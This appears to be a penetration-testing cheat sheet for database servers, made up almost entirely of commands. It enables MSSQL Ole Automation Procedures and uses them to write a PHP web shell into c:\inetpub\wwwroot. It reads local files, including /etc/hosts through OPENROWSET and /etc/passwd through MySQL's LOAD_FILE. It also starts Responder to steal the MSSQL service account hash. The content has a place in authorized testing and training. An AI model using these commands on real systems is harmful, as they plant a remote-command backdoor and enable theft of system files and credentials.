 #### MSSQL - Enable Ole Automation Procedures
```cmd.exe
sp_configure 'show advanced options', 1
GO
```

```cmd.exe
RECONFIGURE
GO
```

```cmd.exe
sp_configure 'Ole Automation Procedures', 1
GO
```

```cmd.exe
RECONFIGURE
GO
```

#### MSSQL - Create a File
```cmd.exe
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```

### Read Local Files

#### Read Local Files in MSSQL
```cmd.exe
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```

#### MySQL - Read Local Files in MySQL
```MySQL
select LOAD_FILE("/etc/passwd");
```

### Capture MSSQL Service Hash

#### XP_SUBDIRS Hash Stealing with Responder
```Shell
responder -I tun0
```
Must be started first, then followed by the next commands

Can also use `impacket-smbserver`
